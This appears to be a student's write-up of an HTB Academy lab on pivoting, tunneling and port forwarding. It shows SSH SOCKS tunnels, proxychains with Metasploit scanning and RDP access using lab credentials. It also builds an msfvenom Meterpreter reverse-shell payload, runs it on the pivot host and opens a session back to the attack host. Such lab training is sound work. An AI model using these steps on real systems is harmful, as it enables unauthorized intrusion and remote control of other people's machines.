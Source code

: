 ## Pivoting, Tunneling, and Port Forwarding   
Once a foothold is gained during an assessment, it may be in scope to move laterally and vertically within a target network. Using one compromised machine to access another is called pivoting and allows us to access networks and resources that are not directly accessible to us through the compromised host. Port forwarding accepts the traffic on a given IP address and port and redirects it to a different IP address and port combination. Tunneling is a technique that allows us to encapsulate traffic within another protocol so that it looks like a benign traffic stream.

# Questions and Answers: 

## Dynamic Port Forwarding with SSH and SOCKS Tunneling

 *SSH with user "ubuntu" and password "HTB_@cademy_stdnt!"*

* **You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)**

I began by connecting to the SSH server using the following command:
```bash
ssh -D 9050 ubuntu@10.129.144.206
```
After successfully logging in, I enumerated the network interfaces with:
```bash
ubuntu@WEB01:~$ ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.144.206  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb0:403a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb0:403a  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b0:40:3a  txqueuelen 1000  (Ethernet)
        RX packets 1350  bytes 117241 (117.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 155  bytes 16860 (16.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb0:2f8  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:02:f8  txqueuelen 1000  (Ethernet)
        RX packets 99  bytes 8340 (8.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 52  bytes 3910 (3.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 352  bytes 27739 (27.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 352  bytes 27739 (27.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

* **Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.**


To verify that my pivot was functioning correctly, I ran the following Nmap command:

```bash
nmap -v -sV -p9050 localhost
```
The results confirmed that port 9050 was open and running tor-socks, indicating that the pivot was set up properly.

Next, I used Metasploit with ProxyChains to scan for RDP services:
```bash
proxychains msfconsole
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
set rhosts 172.16.5.19
run
```

The scan confirmed that RDP was enabled on 172.16.5.19:3389 with the following details:
```bash
Hostname: DC01
Domain: INLANEFREIGHT
FQDN: DC01.inlanefreight.local
OS Version: Windows Server 2019 (10.0.17763)
Network Level Authentication (NLA): Disabled
```

I then attempted to connect to the Windows host using ProxyChains and xfreerdp with the credentials HTB provided:

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
The connection was successful, granting me access to the remote desktop. Navigating to the Desktop directory, I found the flag and retrieved it.

[![Screenshot-2025-03-03-083203.png](https://i.postimg.cc/BnSkc3gN/Screenshot-2025-03-03-083203.png)](https://postimg.cc/56rsbZDF)


## Remote/Reverse Port Forwarding with SSH

*SSH with user "ubuntu" and password "HTB_@cademy_stdnt!"*
* **Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)**

To begin, I connected to the SSH server using dynamic port forwarding with the following command:
```bash
ssh -D 9050 ubuntu@10.129.142.166
```
Once connected, I enumerated the network interfaces using:
```bash
ubuntu@WEB01:~$ ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.142.166  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb0:1692  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb0:1692  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:16:92  txqueuelen 1000  (Ethernet)
        RX packets 3733  bytes 311318 (311.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 294  bytes 26883 (26.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb0:8a2f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:8a:2f  txqueuelen 1000  (Ethernet)
        RX packets 141  bytes 11147 (11.1 KB)
        RX errors 0  dropped 14  overruns 0  frame 0
        TX packets 128  bytes 9526 (9.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 697  bytes 54902 (54.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 697  bytes 54902 (54.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```
The output revealed three interfaces, one of which was ens224, assigned the IP address **172.16.5.129**. This indicated that the machine was part of a private network that granted communication with the Windows server target

* **What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)**

When setting up a listener (e.g., for a reverse shell, Meterpreter handler, or any other network service), `0.0.0.0` ensures that the service listens on all available network interfaces rather than a specific one.


## Meterpreter Tunneling & Port Forwarding

* **What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)**

I connected to the SSH server using dynamic port forwarding with the following command:

```bash
ssh -D 9050 ubuntu@10.129.135.184
```
Next, I generated a Meterpreter payload for the Ubuntu server using msfvenom:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.162 LPORT=8080 -f elf -o shell

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell

```

I ran the following command to copy the payload to the Ubuntu server using scp:
```bash
scp /home/htb-ac-1310789/shell ubuntu@10.129.135.184:/home/ubuntu

ubuntu@10.129.135.184's password: 
shell                                                                                                                                                      100%  250    26.6KB/s   00:00
```

I then set up and started the multi/handler in Metasploit to listen for the reverse connection:
```bash
msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8080
lport => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 0.0.0.0:8080 
```

After that I executed the payload on the pivot host with following commands:

```bash 
ubuntu@WEB01:~$ ls
shell
ubuntu@WEB01:~$ chmod +x shell
ubuntu@WEB01:~$ ./shell
```
This successfully initiated the reverse TCP connection, and we received a Meterpreter session:
```bash
[*] Started reverse TCP handler on 0.0.0.0:8080 
[*] Sending stage (3045380 bytes) to 10.129.135.184
[*] Meterpreter session 1 opened (10.10.14.162:8080 -> 10.129.135.184:47350) at 2025-03-03 11:12:38 -0600
```







